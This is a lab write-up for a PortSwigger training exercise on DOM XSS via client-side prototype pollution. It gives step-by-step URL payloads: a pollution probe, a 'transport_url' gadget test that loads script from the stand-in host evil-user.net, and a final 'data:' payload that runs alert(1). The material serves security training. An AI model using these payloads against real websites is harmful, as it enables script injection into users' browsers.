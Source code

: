 # DOM XSS via client-side prototype pollution

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use [DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader) to help you

---


step 1

add into to url `?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

![[lab1_prototype_pollution.png]]

step 2

go to source tab
go to js folder you will get searchLogger.js

![[lab1_source_seaarchlogger_js_file.png]]

**NOTE**:
![[lab1_notes_on_transport_url.png]]

step 3

test payload `?__proto__[transport_url]=//evil-user.net`
you will notice in elements tab `<script>` element has been rendered on the page

![[lab1_script_element_render.png]]

step 4
final payload `?__proto__[transport_url]=data:,alert(1);//`
you will get pop up alert

![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab1_alert_pop_up.png]]

![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab1_solved_lab.png]]
